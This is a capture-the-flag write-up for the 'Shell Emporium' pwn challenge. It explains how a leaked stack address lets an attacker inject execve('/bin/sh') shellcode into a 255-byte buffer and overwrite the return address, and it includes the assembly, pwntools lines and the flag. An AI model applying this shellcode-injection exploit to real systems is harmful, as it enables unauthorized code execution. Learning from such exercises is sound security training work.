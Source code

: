 # Shell Emporium

- **Category:** Pwn  
- **Points:** 180 (1 flag)

## Description
- You see seashells, I see shells.

## Flag
- **Flag 1:** 180 points

## Access
- **Netcat:** `nc chal.ctf-league.damsec.org 1318`
- **Download:** [shell_emporium](http://chal.ctf-league.osusec.org/pwn/shell_emporium/shell_emporium)

## Writeup

### First look
accessing the server shows us this:
```
DEBUG MESSAGE, PLEASE IGNORE: 0xff95147d
Welcome to Sally's Seashell Emporium!
Select a seashell from our sea source:
(1) Soft shell
(2) Smooth shell
(3) Strong shell
(4) Sure shell
```

the debug message looks to be interesting, but we will ignore it for now.

trying to break this program I noticed would happen if we enter a large enough number, but not much was gained from that.

### Disassembling the binary
taking a look at the binary and reverse engineering it

there were a few things of note here

in main, there is a variable that we get the address of, and that address is given to us right off the bat when we connect to the server, this is the debug message we saw earlier.

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
  undefined4 in_ECX;
  undefined local_10f [255];
  int local_10;
  undefined4 local_c;
  
  local_c = in_ECX;
  setbuf(_stdin,(char *)0x0);
  setbuf(_stdout,(char *)0x0);
  printf("DEBUG MESSAGE, PLEASE IGNORE: %p\n",local_10f);
  puts("Welcome to Sally\'s Seashell Emporium!");
  for (local_10 = 0; local_10 < 1; local_10 = local_10 + 1) {
    FUN_080491a2(local_10f + local_10 * 0xff,0xff);
  }
  FUN_080492ce();
  return 0;
}
```

this shows us that the varible is 255 bytes long

### trying to exploit the program

trying to get a foothold onto the system we take a look at just putting our own shellcode in the buffer and trying to execute it

this shellcode can be found on 'sol.py' but below is it copy and pasted

```
mov eax, 0xB
mov ebx, {addr1}
xor ecx, ecx
xor edx, edx
int 0x80
```

essentially what this does is prep the use of a terminal for us to use by pushing the value 0xB into eax, the address of our code into ebx, and then calling the interrupt 0x80 to execute the code

this now has to be put into the buffer, and sending it over to the server

but to actually get a shell we need to push the name of the program we want to run, which is '/bin/sh' 

to do this we then send over the string '/bin/shx00' and then the shellcode, which will get us fully prepped for a shell

then we need to actaully tell the server to execute our code, we accomplish this by sending the address of the buffer we just sent over

```python
p.send(b"/bin/sh\x00")
p.sendline(shellcode)
print(p.recv())
addr2 = p32(addr1+8)
p.sendline(20*addr2)
```

this address is the same as the one we got at the start of the program, but we add 8 to it to get the address of the shellcode

and then we just spam the address it in hopes of overwritting a return address

this resulted in us getting a shell it doesn't take more than 'ls' to find flag.txt and then cat the flag

#### Flag
```
osu{5411y_p0p5_5345h3115_4_7h3_5345h0r3}
```
** I do not own nor did I create the content for this challenge. This is a writeup for the challenge that I solved **

